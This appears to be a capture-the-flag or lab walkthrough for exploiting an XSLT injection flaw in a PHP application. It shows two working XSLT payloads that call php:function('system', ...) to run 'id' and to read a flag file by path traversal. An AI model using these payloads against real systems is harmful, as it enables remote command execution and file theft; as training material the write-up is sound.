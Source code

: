 # Exploiting XSLT Injection

Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

To explore this XSLT vulnerability lets try a simple payload first in order to see if the command gets executed:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```xml
<xsl:value-of select="php:function('system','id')" />
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!

After looking arround with the `ls` command, we finnaly managed to get the flag with following payload:

```xml
<xsl:value-of select="php:function('system','cat ../../../../flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>
